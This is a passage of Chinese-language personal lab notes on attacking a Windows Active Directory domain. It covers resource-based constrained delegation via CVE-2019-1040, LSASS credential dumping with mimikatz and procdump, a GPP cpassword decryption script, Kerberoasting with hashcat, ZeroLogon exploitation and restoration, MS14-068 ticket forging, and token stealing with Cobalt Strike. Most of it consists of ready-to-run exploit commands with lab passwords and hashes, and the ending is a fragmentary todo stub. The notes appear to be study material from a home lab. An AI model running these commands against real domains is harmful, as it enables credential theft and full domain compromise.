    ```

    
    可以看到下方提示被攻击的主机的机器账户委派修改成功。

8. 获取服务票据，设置环境变量并导入（别忘了 Kali 改 DNS 服务器）：
    ```bash
    # python3 ./getST.py -dc-ip 域控的-ip endlessshw2/主机账号\$:密码 -spn cifs/主机名.endlessshw2.com -impersonate administrator
    python3 ./getST.py -dc-ip 192.168.31.4 endlessshw2/hacker\$:cjy320723 -spn cifs/Winserver12.endlessshw2.com -impersonate administrator
    export KRB5CCNAME=administrator@cifs_Winserver12.endlessshw2.com@ENDLESSSHW2.COM.ccache
    python3 smbexec.py -no-pass -k Winserver12.endlessshw2.com
    ```

    

9. 和 [5.3.3](#5.3.3 案例 - 本地主机提权) 的基本使用相比，使用 CVE-2019-1040 的目的在于将可攻击的范围扩大。基本使用中，可以横向的主机只有 `mS-DS-Creator-SID` 为已经拿下的域用户。但是通过 CVE-2019-1040，却可以修改目标主机的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性，从而使其满足攻击条件。需要注意的是，**发起 NTLM 请求方（被攻击方）和域控主机不能是同一台主机**。想要获取域控权限，NTLM 请求方可以是域控的备份机器。

10. 还有其他的攻击，详见：

    > https://exp10it.io/2023/08/%E5%9F%BA%E4%BA%8E%E8%B5%84%E6%BA%90%E7%9A%84%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE-rbcd-%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#rbcd-%E5%90%8E%E9%97%A8

## 6. 提权到域控

### 6.1 本地高权限导出域控 Hash 或明文密码

1. 如果当前拿到的机器是**本地管理员**，且域控有登陆过，那么就可以上传 mimikatz 然后导出 NTLM Hash（拿到 Hash 可以[用 PsExec 尝试登录](#4.2.3 使用 MSF 的 Hash 模块)域控主机了），有概率有明文密码（**Winserver12 版本以上**内存中不保存明文密码）：
    ```bash
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    ```

    

2. 如果存在杀软，那么 mimikatz 可能会被杀掉，所以通过 procdump（Windows 内置调试工具） + mimikatz 的组合来绕过。先导出，然后通过 mimikatz 本地读：
    ```bash
    # 导出
    procdump64.exe -accepteula -ma lsass.exe lsass.dmp
    # 使用 mimikatz 读取
    mimikatz.exe "sekurlsa::minidump C:\Users\Administrator\Desktop\lsass.dmp" "sekurlsa::logonpasswords full" "exit" > 1.txt
    ```

3. 对于 Winserver12 以上的版本，想要导出明文，可以先修改注册表，然后**域控重新登录时**，从而读取明文：
    ```cmd
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
    ```

    

### 6.2 SYSVOL 组策略获取密码

1. 参考：

    > https://cloud.tencent.com/developer/article/1039289
    > https://blog.csdn.net/Fly_hps/article/details/80641585

2. 在域环境中，有个默认的共享路径：
    `\\<DOAMIN>\SYSVOL\<DOMAIN>\`

3. 漏洞背景：
    早期域控想要统一管理和修改域内计算机的本地 Administrator 的密码时，需要写一个自定义的 VBS 脚本放入 SYSVOL 来实现密码更改，但是脚本密码肯定都是明文。所以后来微软发布了组策略偏好（Group Policy Preferences）来统一设置，同时密文都 AES-256 进行加密，所以共享路径内的 Groups.xml 中只有加密后的密码。

4. 问题在于，微软在之后公布了这个加密密钥，这就导致密文可破解。

    > https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

5. 反解的 Powershell 脚本如下：
    ```powershell
    function Get-DecryptedCpassword {
        [CmdletBinding()]
        Param (
            [string] $Cpassword
        )
     
        try {
            #Append appropriate padding based on string length  
            $Mod = ($Cpassword.length % 4)
     
            switch ($Mod) {
            '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
            '2' {$Cpassword += ('=' * (4 - $Mod))}
            '3' {$Cpassword += ('=' * (4 - $Mod))}
            }
     
            $Base64Decoded = [Convert]::FromBase64String($Cpassword)
     
            #Create a new AES .NET Crypto Object
            $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
            [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                                 0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)
     
            #Set IV to all nulls to prevent dynamic generation of IV value
            $AesIV = New-Object Byte[]($AesObject.IV.Length) 
            $AesObject.IV = $AesIV
            $AesObject.Key = $AesKey
            $DecryptorObject = $AesObject.CreateDecryptor() 
            [Byte[]] $OutBlock = $DecryptorObject.TransformFinalBlock($Base64Decoded, 0, $Base64Decoded.length)
     
            return [System.Text.UnicodeEncoding]::Unicode.GetString($OutBlock)
        }
     
        catch {Write-Error $Error[0]}
    }
    Get-DecryptedCpassword "修改密钥处"
    ```

6. 也可以使用 PowerSploit 工具包中的 Get-GPPPassword.ps1：

    > https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

7. 防御措施：

    1. 打补丁：KB2962486
    2. 删除 SYSVOL 目录下的 groups.xml
    3. 设置共享文件 SYSVOL 的访问权限

### 6.3 Kerberoasting

1. 在域中访问 SPN 对应的实例的过程中，从 TGS 拿到的 Ticket 是用实例的 NTLM Hash 作为密钥进行对称加密的，如果这个加密的方式是 RC4_HMAC_MD5，就可以将这个 Ticket 导出对其进行离线破解，从而获取到域用户的密码了。
2. SPN 在 [5.1 非约束委派攻击](# 5.1 非约束委派攻击)有过介绍，这里再进行补充。SPN 分为两种类型：
    1. 注册在活动目录 AD 的机器账号（Computers）下的。
        即当一个服务的权限为 Local System 或 Network Service 时，则 SPN 就注册到 Computers 下。
    2. 一种是注册在 AD 的域用户下（Users），当一个服务的权限为一个域用户，则 SPN 注册在 Users 下。
3. 在域中，默认普通机器账号有权注册 SPN，但是域账号不行。不过域用户和机器用户都有查询 SPN 的权限。**一般是破解域用户的 SPN**，因为机器账号破解出来不能用于登录。
    

#### 6.3.1 环境搭建

1. 首先在 DC 上配置 Kerberos 的加密类型：
    

2. 注销后重新登录，查看结果：
    

3. 为域用户注册一个 SPN：
    ```cmd
    setspn -s mysql/Winserver12.endlessshw2.com Member2
    setspn -s mysql/Winserver12.endlessshw2.com:3306 Member2
    ```

#### 6.3.2 实验一：mimikatz 导出 + tgsrepcrack.py 破解

1. 首先使用 Windows 自带的工具查询 SPN：
    ```cmd
    # 查询所有域内的 SPN
    setspn.exe -q */*
    # 查询指定域的 SPN
    setspn.exe -T redteam.club -q */*
    ```

    
    也可以用 Powersploit 中的脚本：

    ```powershell
    Import-Module .\PowerView.ps1
    Get-NetUser -spn | Select name, serviceprincipalname, whencreated, pwdlastset, lastlogon
    ```

    

2. 请求票据：
    ```powershell
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "mysql/endlessshw2.com:3306"
    # 使用 klist 查看票据是否拿到
    klist
    ```

    自己做的时候一直报错，改用 mimikatz 也报错：
    
    做不了一点。

3. 用 mimikatz 导出：
    ```bash
    mimikatz # kerberos::list /export
    ```

4. 然后使用 tgsrepcrack.py 进行破解：

    > https://github.com/nidem/kerberoast

    ```bash
    python3 tgsrepcrack.py wordlist.txt mssql.kirbi
    ```

#### 6.3.3 实验二：Empire 的 Invoke-Kerberoast + HashCat 爆破

1. 使用 Invoke-Kerberoast 脚本，`Invoke-kerberoast.ps1`是 Empire 中集成的脚本：

    > https://github.com/EmpireProject/Empire/tree/master/data/module_source/credentials

    
    麻了。
    相关命令：

    ```powershell
    Import-Module .\Invoke-kerberoast.ps1 
    # 查看结果
    Invoke-Kerberoast -OutputFormat Hashcat
    # 导出（记得把文件中的双引号去掉）
    Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation > result.txt
    ```

2. 拿到结果后，到 HashCat 中爆破：
    ```bash
    hashcat -m 13100 hash /home/kali/Desktop/kerberoast-master/字典.txt -o result.txt --force
    ```

3. 其他的还有用 Rubeus 来获取票据。详见：

    > https://xz.aliyun.com/t/13697?time__1311=GqmxuD9DgiYeqGNDQi5BK%2BuDfrOQtDnQGWoD#toc-15

### 6.4 CVE-2019-1040

1. 这个内容在 [5.3.5](# 5.3.5 CVE-2019-1040 横向其他主机的本地管理员) 中有详细介绍。

### 6.5 CVE-2020-1472 ZeroLogon

1. 参考文章：

    > https://www.freebuf.com/articles/network/365919.html

2. Netlogon 远程协议是远程过程调用 (RPC) 协议，它在 Windows 网络上执行与 Active Directory 身份验证相关的各种功能。例如，它可用于重置机器密码或备份域控制器的用户数据库。然而，最常见的应用是通过 NTLM 协议促进远程登录。

3. 总的来说，Netlogon 认证过程中所使用的，`ComputeNetLogonCreadential` 加密函数的， AES-CFB8 认证算法的， VI 向量默认为 0，导致攻击者可以绕过认证；同时**设置域控密码的远程接口**也使用了该函数，因此可以将 AD 的**机器账户**密码改成空密码。

#### 6.5.1 实验

1. 直接上 PoC：

    > https://github.com/dirkjanm/CVE-2020-1472

2. kali 上直接使用：
    ```bash
    # 注意这里的 DC-Name 指的是 DC 的主机名
    python3 cve-2020-1472-exploit.py <dc-name> <dc-ip>
    python3 cve-2020-1472-exploit.py Winserver12-DC 192.168.31.4
    ```

    

3. 这是密码被置空了，可以获取他的 Hash 看一下。使用 Impacket 包中的 secretsdump.py 来获取。
    ```bash
    python3 secretsdump.py endlessshw2.com/Winserver12-DC\$@192.168.31.4 -no-pass
    ```

    
    aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 这个就是空密码的 Hash。

4. 通过漏洞导出域控用户账户的 Hash 后，可以用 Hash 登录：
    ```bash
    python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5 endlessshw2.com/administrator@192.168.31.4
    ```

    

5. 改完之后会导致各个域之间无法正常通信，因此有必要将其还原：

    > Do note that by default this changes the password of the domain controller account. Yes this allows you to DCSync, but it also **breaks communication with other domain controllers**, so be careful with this!

    首先导出 SAM 文件（在域控上或者拿到的 Shell 上执行）：
    ```cmd
    # 靶机上备份
    reg save HKLM\SYSTEM system.save
    reg save HKLM\SAM sam.save
    reg save HKLM\SECURITY security.save
    # Shell 下载到本地
    get system.save
    get sam.save
    get security.save
    # 靶机上的再删除
    del /f system.save
    del /f sam.save
    del /f security.save
    exit
    ```

    本人实验时有问题，这里就直接从域控那台电脑复制了。
    

6. 破解文件，获取获取原先的 Hash：
    ```bash
    python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
    ```

    

7. PoC 中含有恢复脚本，但是本人在实验时还是有问题：
    ```bash
    # hexpass 指的是 $MACHINE.ACC:plain_password_hex 的内容
    python3 restorepassword.py Winserver12-DC -target-ip 192.168.31.4 -hexpass af322890fc9f4b54ec2c42ca8e9767e2a7f5587abe0379a2054b842bcf96f6fbf57afdb79734918a01fcc06b0717348f1728e74afca5046c8adf2214fa3d0febae49aaa8ddfd7cebc820ce26f30c4c031554cf2e9e09d8eb247a23b0e26b3bb4be6fd242a09c4650a3aebab25dec15c28f44aa38fe55834cb535649f5a6df1e5d23e1bb4523a12b6bbdee18d54323fe608d234e5d1d25ee3b5e565a18efad772990a8bd8491d6e2e7719a49658ff2f6f7a48b5ebc852965344482d23c839f518ab0423e4033c5349e46b19f39649cb07e5498b64d97b1e98351c42a2302993cfa7fa6bf68005782b64f9156d76c1c11f
    ```

    
    该 PoC 的 issus 中也有人反应这个问题，但是没有得到解决。

8. 只能改用另外的大佬的 PoC：

    > https://github.com/risksense/zerologon

    ```bash
    python3 reinstall_original_pw.py Winserver12-DC 192.168.31.4 aad3b435b51404eeaad3b435b51404ee:71f8b21d02adb6f1e2166ebbbab2e578
    ```

    

9. 再次查看一下：
    ```bash
    python3 secretsdump.py endlessshw2.com/administrator@192.168.31.4 -hashes aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5
    ```

    
    复原了，但是下面还有报错，不管了。注销一下再查看就不会报错了。

### 6.6 MS14-068 提权 - 补丁 KB3011780

1. 老漏洞了，Winserver08 可以，Winserver12 看脸了。

2. 原理参考：

    > https://www.freebuf.com/articles/network/373088.html
    > https://blog.csdn.net/zy_strive_2012/article/details/51698780

    总结四个点（细节还没看透，参考的文章写的其实很乱，大概是这么个意思）：

    1. 在 AS_REQ （身份验证）阶段有一个参数 `include-PAC`，将该参数设置为 `False` 时，则返回 TGT 中不会包含 PAC。这样才能在 TGS_REQ 阶段构造 PAC，从而不将 PAC 放在 TGT 中。
    2. 虽然 PAC 不在 TGT 中，但是 KDC 却仍然能够正确解析出没有放在 TGT 中的 PAC 信息。（很奇怪，为什么微软要这么做）
    3. PAC 中的数字签名可以由 Client 端指定，并且 Key 的值可以为空，从而绕过数字签名认证。
    4. KDC 不仅会从第一步客户的身份验证请求中**取出来 subkey**（客户端构造），把 PAC 信息解密并利用客户端设定的签名算法验证签名，同时将另外的 TGT 进行解密得到 Session Key。在验证成功后，把解密的 PAC 信息的尾部，重新生成一个签名，**把 Session Key 用 subkey 加密（注意这里不是用的请求方的 NTLM，从而导致可以伪造域控身份却不需要知道域控的 NTLM，简单来讲就是将 subkey 当成域控的 NTLM Hash 使用了）**，从而组合成了一个**新的 TGT** 返回给请求方（本该返回 ServerTicket 的时候，返回了一个 TGT）。

3. 先利用 MS14-068 伪造生成 TGT：
    ```cmd
    MS14-068.exe -u <userName>@<domainName> -s <userSid> -d <DcAddr> [-p <clearPassword>] [-rc4 <NTLM Hash>]
    MS14-068.exe -u Member2@endlessshw2.com -s S-1-5-21-1374896991-3346529381-10343655-1109 -d Winserver12-DC -p CJYcjy320723
    ```

    

4. 将生成的 TGT 用 mimikatz 导入，创建缓存证书：
    ```bash
    mimikatz # kerberos::ptc TGT_Member2@endlessshw2.com.ccache
    ```

    

5. 创建域控的 Shell：
    ```cmd
    PsExec.exe \\Winserver12 cmd.exe
    # 或者使用 impacket 脚本
    python3 goldenPac.py -dc-ip 192.168.31.4 -target-ip 192.168.31.4 endlessshw2.com/Member2:CJYcjy320723@Winserver12-DC
    ```

6. 自己做的时候，发现域控为 **Winserver12** 时依旧没法提权。反正这个漏洞现在少见了，以后遇到再说。

### 6.7 窃取域控令牌和进程迁移/注入

1. 相关的原理在[第三节](#3 Windows Access Token)讲过，这里就直接上操作。

2. 环境搭建：域控在自己的电脑上，使用 RDP 远程登录其他主机。

3. 这里使用 Cobalt Strike 进行演示，拿到 Beacon 后：
    
    查看会话进程，找到以域控身份使用的进程，先点击 Inject 来获取新的会话：
    
    成功拿到域控权限。

4. 上述提一下进程注入，点击 Steal Token 的话，就是窃取令牌：
    
    可以看到窃取成功：
    
    想要恢复原来的权限的话，执行 `rev2self` 即可：
    

5. 当然网上还有其他方法，例如 MSF 的 Incognito：

    > https://cloud.tencent.com/developer/article/1752172


### 2.4 知识拓展

1. 域透技术/思路：

    > https://lolbas-project.github.io/

2. SPN 扫描

    > https://gtfobins.github.io/

3. Red/Blue Team

    > https://github.com/yeyintminthuhtut/Awesome-Red-Teaming

 2.5 针对 Kerberos 的攻击

todo MS14068、SPN 等0
